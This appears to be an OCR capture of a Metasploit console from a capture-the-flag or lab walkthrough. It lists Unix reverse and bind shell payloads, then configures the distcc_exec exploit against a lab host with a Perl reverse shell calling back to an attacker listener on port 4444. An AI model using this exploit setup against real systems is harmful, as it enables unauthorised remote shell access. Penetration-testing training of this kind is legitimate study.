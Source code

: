    Name                                Disclosure Date  Rank    Check  Description
   ----                                ---------------  ----    -----  -----------
   cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_bash                                normal  No     Unix Command Shell, Reverse TCP (/dev/tcp)
   cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   cmd/unix/reverse_openssl                             normal  No     Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/misc/distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
